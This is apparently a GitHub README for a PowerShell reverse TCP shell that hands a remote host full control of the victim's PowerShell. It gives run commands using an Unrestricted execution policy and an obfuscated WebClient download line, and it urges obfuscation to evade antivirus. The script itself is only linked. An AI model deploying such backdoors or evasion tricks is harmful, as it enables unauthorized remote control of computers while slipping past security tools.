 # PowerShell Reverse TCP

PowerShell script for connecting to a remote host.

Remote host will have full control over client's PowerShell and all its underlying commands.

Tested with PowerShell v5.1.18362.145 on Windows 10 Enterprise OS (64 bit).

Made for educational purposes. I hope it will help!

## How to Run

**Change the IP address and port number inside the script.**

To start the PowerShell, run the following command from your Command Prompt:

```batch
START PowerShell -ExecutionPolicy Unrestricted -NoProfile
```

To execute the script, run the following command from your PowerShell:

```pwsh
& .\powershell_reverse_tcp.ps1
```

## PowerShell Obfuscation

Try to bypass an antivirus or some other security mechanisms by obfuscating your scripts.

You can see such obfuscation in the following example.

Original PowerShell command:

```pwsh
(New-Object Net.WebClient).DownloadFile($url, $out)
```

Obfuscated PowerShell command:

```pwsh
(& (`G`C`M *w-O*) Net.WebClient)."`D`O`W`N`L`O`A`D`F`I`L`E"($url, $out)
```

**Check the original PowerShell script [here](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp.ps1) and the obfuscated one [here](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp_obfuscated.ps1).**

Besides manual obfuscation, the original PowerShell script was also obfuscated with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) tool. Credits to the author!

Search the Internet for additional methods and obfuscation techniques.

## Images

![Backdoor](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/img/backdoor.jpg)

![Shell](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/img/shell.jpg)
